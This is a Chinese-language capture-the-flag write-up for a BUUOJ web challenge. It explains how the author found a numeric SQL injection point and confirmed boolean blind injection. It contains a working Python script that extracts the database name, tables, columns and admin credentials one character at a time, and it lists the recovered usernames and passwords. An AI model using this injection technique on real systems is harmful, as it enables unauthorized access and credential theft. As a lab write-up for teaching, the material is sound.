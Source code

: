# \[Black Watch 入群题]Web

## \[Black Watch 入群题]Web

## 考点

* 注入点寻找与判断

## wp

![](../.gitbook/assets/image\_kbvyQHwi5MfQyJEr29UMnf.png)

一开始并没有什么发现，后来F12找请求包时，发现请求热点内容的URL

![](../.gitbook/assets/image\_5UkYbvqTSPV95Zpy7qiycM.png)

分别访问如下地址，只有`id=2/2`可以访问，其他均返回`hack`，初步判断数值型注入

```
backend/content_detail.php?id=2-2
backend/content_detail.php?id=2%2b2
backend/content_detail.php?id=2*2
backend/content_detail.php?id=2/2
```

访问`id=0`返回的是空白页面，可以发现如果被过滤返回hack，没有过滤但执行无结果返回空白。

访问`id=0^1`返回id为1的内容，基本确定是布尔盲注

脚本如下（和\[WUSTCTF2020]颜值成绩查询一样的），得到数据库名为news，表名admin,contents，admin表的字段为id,username,password,is\_enable

```python
import requests

url = 'http://26d24c17-5d64-4249-881d-af4ff63d3b12.node4.buuoj.cn:81/backend/content_detail.php?id=' 

def get_database():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        while low < high:
            payload = f"0^(ascii(substr((select(database())),{i},1))>{mid})"
            # payload = f"0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='news')),{i},1))>{mid})"
            # payload = f"0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='admin')),{i},1))>{mid})"
            # f"0^(ascii(substr((select(group_concat(username))from(admin)),{i},1))>{mid})"
            # f"0^(ascii(substr((select(group_concat(password))from(admin)),{i},1))>{mid})"
            url_t = url + payload
            r = requests.get(url=url_t)
            
            if len(r.text)==2:
                high = mid
            if 'content' in r.text:
                low = mid + 1
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break
get_database()
```

跑出来结果，第二个是对的

```
username: 66e8e3bb,b7626496
password: b9974657,54938daf
```

## 小结

1. F12或者抓包看请求的过程
